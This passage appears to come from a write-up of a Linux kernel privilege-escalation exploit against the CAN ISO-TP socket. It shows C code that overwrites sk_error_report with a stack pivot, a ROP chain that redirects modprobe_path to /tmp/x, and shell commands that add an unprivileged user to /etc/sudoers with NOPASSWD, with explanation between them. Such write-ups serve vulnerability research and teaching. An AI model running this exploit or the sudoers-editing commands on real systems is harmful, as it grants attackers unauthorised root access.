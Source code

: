 ```c
	/* overwrite sk_error_report() (offset 0x2b8) with stack pivot */
	dst = (uint64_t *)(p + 0x2b8);
	*dst = ROP_PUSH_RDI__JUNK__POP_RSP__RET + kaslr_offset;

	/* ROP at isotp_sock + 0x8 */
	*dst = ROP_RET_0x700 + kaslr_offset;
	dst++;
        /* jump to extended rop chain at isotp_sock + 0x10 */
        *dst = ROP_RET + kaslr_offset;

	/* extended rop chain */
        rop = (uint64_t *)(p + 0x718);
        *rop++ = ROP_POP_RAX__RET + kaslr_offset;
        *rop++ = 0x782f706d742f; /* /tmp/x */
        *rop++ = ROP_POP_RCX__RET + kaslr_offset;
        *rop++ = MODPROBE_PATH + kaslr_offset;
        *rop++ = ROP_MOV_RAX_INTO_RCX__RET + kaslr_offset;
        *rop++ = ROP_POP_RAX__RET + kaslr_offset;
        *rop++ = DO_TASK_DEAD + kaslr_offset;			[1]
        *rop++ = ROP_JMP_RAX + kaslr_offset;
```


The following image shows the sprayed target to overwrite `struct isotp_sock`

![alt text](/home/test/spray.png "Logo Title Text 1")

The ROP chain consists of a technique to overwrite `modprobe_path`. In case any user wants to execute
a file with an invalid file signature, the program at `modprobe_path` will be executed with root privileges.
This technique was apparently used in some CTF challenges and it was thoroughly described by *lkmidas*
in his blog. In case you want to learn about it in depth, check out his well-written article.
Once we have overwritten `modprobe_path`, the kernel thread will be stopped in `do_task_dead()` ``[1]``.
This step is needed as we are already done with exploiting the kernel, and any further
execution of our hijacked kernel thread might result in severe kernel crashes.

```c
ret = system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy; \		 [1]
	chmod +x /tmp/dummy");
if (ret != 0)
	die("/tmp/dummy creation failed");

ret = system("echo '#!/bin/sh' > /tmp/x; \
	echo 'echo \"noprivs ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers'	[2]
		>> /tmp/x; chmod +x /tmp/x");
if (ret != 0)
	die("/tmp/x creation failed");
```

In short, I create a file ``/tmp/dummy`` ``[1]`` with the invalid signature ``0xff 0xff 0xff 0xff``.
I also create a file ``/tmp/x`` ``[2]`` which is the overwritten `modprobe_path`. This small
shell script will add the unprivileged user to ``/etc/sudoers``, allowing to escalate the user's
privileges to root.
